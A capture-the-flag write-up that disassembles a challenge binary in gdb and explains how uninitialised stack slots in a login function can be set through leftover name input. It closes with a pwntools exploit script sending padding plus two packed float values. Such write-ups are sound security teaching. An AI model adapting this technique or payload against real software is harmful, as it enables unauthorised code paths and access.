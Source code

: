 # Writeup

* Disassembling main in gdb

```bash
gdb > disass main
   0x0000131b <+0>:     push   ebp
   0x0000131c <+1>:     mov    ebp,esp
   0x0000131e <+3>:     and    esp,0xfffffff0
   0x00001321 <+6>:     call   0x133c <__x86.get_pc_thunk.ax>
   0x00001326 <+11>:    add    eax,0x2cda
   0x0000132b <+16>:    call   0x12a9 <get_name>
   0x00001330 <+21>:    call   0x11ed <login>
   0x00001335 <+26>:    mov    eax,0x0
   0x0000133a <+31>:    leave
   0x0000133b <+32>:    ret
```

We see that it is calling two functions `get_name` and `login` with
no arguments. Now dissassembling those function , we see

`get_name` disassembly

```
gdb > disass get_name
   0x000012a9 <+0>:     push   ebp
   0x000012aa <+1>:     mov    ebp,esp
   0x000012ac <+3>:     push   ebx
   0x000012ad <+4>:     sub    esp,0x74
   0x000012b0 <+7>:     call   0x10f0 <__x86.get_pc_thunk.bx>
   0x000012b5 <+12>:    add    ebx,0x2d4b
   0x000012bb <+18>:    mov    eax,gs:0x14
   0x000012c1 <+24>:    mov    DWORD PTR [ebp-0xc],eax
   0x000012c4 <+27>:    xor    eax,eax
   0x000012c6 <+29>:    sub    esp,0xc
   0x000012c9 <+32>:    lea    eax,[ebx-0x1fea]
   0x000012cf <+38>:    push   eax
   0x000012d0 <+39>:    call   0x1040 <printf@plt>
   0x000012d5 <+44>:    add    esp,0x10
   0x000012d8 <+47>:    sub    esp,0x8
   0x000012db <+50>:    lea    eax,[ebp-0x70]
   0x000012de <+53>:    push   eax
   0x000012df <+54>:    lea    eax,[ebx-0x1fdc]
   0x000012e5 <+60>:    push   eax
   0x000012e6 <+61>:    call   0x10a0 <__isoc99_scanf@plt>
   0x000012eb <+66>:    add    esp,0x10
   0x000012ee <+69>:    sub    esp,0x8
   0x000012f1 <+72>:    lea    eax,[ebp-0x70]
   0x000012f4 <+75>:    push   eax
   0x000012f5 <+76>:    lea    eax,[ebx-0x1fd6]
   0x000012fb <+82>:    push   eax
   0x000012fc <+83>:    call   0x1040 <printf@plt>
   0x00001301 <+88>:    add    esp,0x10
   0x00001304 <+91>:    nop
   0x00001305 <+92>:    mov    eax,DWORD PTR [ebp-0xc]
   0x00001308 <+95>:    sub    eax,DWORD PTR gs:0x14
   0x0000130f <+102>:   je     0x1316 <get_name+109>
   0x00001311 <+104>:   call   0x13c0 <__stack_chk_fail_local>
   0x00001316 <+109>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x00001319 <+112>:   leave
   0x0000131a <+113>:   ret
```

`login` disassembly

```bash
gdb > disass login
   0x000011ed <+0>:     push   ebp
   0x000011ee <+1>:     mov    ebp,esp
   0x000011f0 <+3>:     push   ebx
   0x000011f1 <+4>:     sub    esp,0x34
   0x000011f4 <+7>:     call   0x10f0 <__x86.get_pc_thunk.bx>
   0x000011f9 <+12>:    add    ebx,0x2e07
   0x000011ff <+18>:    mov    eax,gs:0x14
   0x00001205 <+24>:    mov    DWORD PTR [ebp-0xc],eax
   0x00001208 <+27>:    xor    eax,eax
   0x0000120a <+29>:    sub    esp,0xc
   0x0000120d <+32>:    push   0x0
   0x0000120f <+34>:    call   0x1070 <srand@plt>
   0x00001214 <+39>:    add    esp,0x10
   0x00001217 <+42>:    call   0x1090 <rand@plt>
   0x0000121c <+47>:    sub    esp,0xc
   0x0000121f <+50>:    push   eax
   0x00001220 <+51>:    call   0x1070 <srand@plt>
   0x00001225 <+56>:    add    esp,0x10
   0x00001228 <+59>:    call   0x1090 <rand@plt>
   0x0000122d <+64>:    movzx  eax,ax
   0x00001230 <+67>:    mov    DWORD PTR [ebp-0x2c],eax
   0x00001233 <+70>:    fild   DWORD PTR [ebp-0x2c]
   0x00001236 <+73>:    fstp   DWORD PTR [ebp-0x1c]
   0x00001239 <+76>:    call   0x1090 <rand@plt>
   0x0000123e <+81>:    movzx  eax,ax
   0x00001241 <+84>:    mov    DWORD PTR [ebp-0x2c],eax
   0x00001244 <+87>:    fild   DWORD PTR [ebp-0x2c]
   0x00001247 <+90>:    fstp   DWORD PTR [ebp-0x18]
   0x0000124a <+93>:    lea    eax,[ebp-0x14]
   0x0000124d <+96>:    fld    DWORD PTR [eax]
   0x0000124f <+98>:    fld    DWORD PTR [ebp-0x1c]
   0x00001252 <+101>:   fucomip st,st(1)
   0x00001254 <+103>:   jp     0x1288 <login+155>
   0x00001256 <+105>:   fld    DWORD PTR [ebp-0x1c]
   0x00001259 <+108>:   fucomip st,st(1)
   0x0000125b <+110>:   fstp   st(0)
   0x0000125d <+112>:   jne    0x128e <login+161>
   0x0000125f <+114>:   lea    eax,[ebp-0x10]
   0x00001262 <+117>:   fld    DWORD PTR [eax]
   0x00001264 <+119>:   fld    DWORD PTR [ebp-0x18]
   0x00001267 <+122>:   fucomip st,st(1)
   0x00001269 <+124>:   jp     0x128c <login+159>
   0x0000126b <+126>:   fld    DWORD PTR [ebp-0x18]
   0x0000126e <+129>:   fucomip st,st(1)
   0x00001270 <+131>:   fstp   st(0)
   0x00001272 <+133>:   jne    0x128e <login+161>
   0x00001274 <+135>:   sub    esp,0xc
   0x00001277 <+138>:   lea    eax,[ebx-0x1ff8]
   0x0000127d <+144>:   push   eax
   0x0000127e <+145>:   call   0x1060 <system@plt>
   0x00001283 <+150>:   add    esp,0x10
   0x00001286 <+153>:   jmp    0x128e <login+161>
   0x00001288 <+155>:   fstp   st(0)
   0x0000128a <+157>:   jmp    0x128e <login+161>
   0x0000128c <+159>:   fstp   st(0)
   0x0000128e <+161>:   mov    eax,0x0
   0x00001293 <+166>:   mov    edx,DWORD PTR [ebp-0xc]
   0x00001296 <+169>:   sub    edx,DWORD PTR gs:0x14
   0x0000129d <+176>:   je     0x12a4 <login+183>
   0x0000129f <+178>:   call   0x13c0 <__stack_chk_fail_local>
   0x000012a4 <+183>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x000012a7 <+186>:   leave
   0x000012a8 <+187>:   ret
```

We can see that the get_name function takes in some input. And we can calculate its size
easily as `0x70 - 0xc` which comes out to be 100. We can tell the buffer ends at 0xc because 
at 0xc gs:0x14 value is placed to detect buffer overflow which is not actually possible here because of the use of %100s in printf (we can see this from strings command as well). But we
see that nothing much is done with that input. Its just prints to the screen. Nothing else.

Now if we take a look at the login function, we see that it is dealing with some floats. There 
are `fld,fstp,fucomip` and we also see `rand` and `srand` getting called. The srand function 
has a fixed seed of `0`. And right after that there's another `srand` call with argument
being result of `rand`. Since the first srand seed was constand , the value generated by
the `rand()` which is the argument of  second `srand` is going to generate the same value
always. So the second `srand` is also technically being called with a constant.


So our `rand` calls are always going to generate the same values no matter how many times we run it. Also after every call to `rand` there
seems to be some instructions , its only taking the rightmost 16 bits of the value
generated by rand() (with `movzx eax , ax`).

Our focus is at `fld,fstp` instructions. The `fld` instruction loads some data onto the stack from a 
particular place and the `fstp` instruction is popping that pushed value to location
`$ebp-0x1c` after the first `rand` call and its storing the result of that `rand` function call after doing and with `0xffff`(`movzx eax,ax` does this) . Also similarly at `$ebp-0x18` there's another random value stored.


Right after the instruction at `<+145>` in login disassembly, which stores a float, we see the address
`$ebp-0x14` being loaded to `$eax` with lea instruction. And the value at that address is
loaded as a float by `fld` instruction. **But we never really wrote anything to `$ebp-0x14`**.
After that `$ebp-0x1c` is loaded. We see a `fucomip st,st(1)` instruction after that which 
is basically comparing the the last two float values that were pushed onto the stack and 
this instructions also pops off the top value `st or st(0)` which in this case is `$ebp-0x1c`
. This instruction sets flags PF,CF and ZF based on the comparision. And we see a parity 
check being done with `jp` instruction. After that again `$ebp-0x1c` is loaded and we 
see another `fucomip` instruction and this time it was done to check for equality,evident by 
the `jne` instruction. Now we see the same set of instructions being performed on
`$ebp-0x10` and `$ebp-0x18`. And failing any of the comparisions would cause the program to
jump to the same place. So it can be concluded from this that there was two floating point
equality checks between `$ebp-0x1c and $ebp-0x14` and `$ebp-0x18 and $ebp-0x10`. If both 
checks are passed then only we get to out flag(with the `system` function call with "/bin/cat flag").

**But we never really gave any values for `$ebp-0x14` and `$ebp-0x10` inside the `login` function**, that means that the input
given in `get_name` function is supposed to satisfy these equality checks done with the random
values generated. This happens because of how stacks are used. When we return from a function
call, the values written there arent cleared. They just stay there until they're overwritten
by some other function. So the input that we gave in `get_name` sticks around in the call
to `login`. Some portions of it are overwritten by that functions local variables but
not all the values got overwritten. So we just put appropriate values in `$ebp-0x14` and
`$ebp-0x10` and boom we get our flag. 

We can easily find out what values were put in $ebp-0x1c and $ebp-0x18(by the `rand` calls) by stopping 
the execution with gdb and examining these two places inside the `login` function call.

Now the input in `get_name` call is 100 characters(from $ebp-0x70 -> $ebp-0xc) we need to
carefully put the last 8 characters so that it passes the comparisions. 92 - 96 characters will
go to `$ebp-0x14` and 96-100 will go to `$ebp-0x10`. Now we just give an input that will pass
the tests and we have our flag.

After examining by running local binary in gdb, we see that the `$ebp-0x1c = 9662.0 = 0x4616f800` and `$ebp-0x18 = 43738.0 = 0x472ada00`

Now making exploit for it with pwntools, we'd have to do something like this

```python
from pwn import *
import struct

def f(a:int) -> bytes:
    return struct.pack('i',a)

def main():
   # host = 'host'
   # port = 'port'
   #  p = remote(host,port,timeout=None)
    p = process('./YouCantSeeMe') # when run locally
    # Found with gdb
    ebp1cVal = 0x4616f800
    ebp18Val = 0x472ada00
    print(p.recvuntil('Your name? : ').decode())
    p.sendline(("A"*92).encode() + f(ebp1cVal) + f(ebp18Val) )
    p.interactive()

main()
```
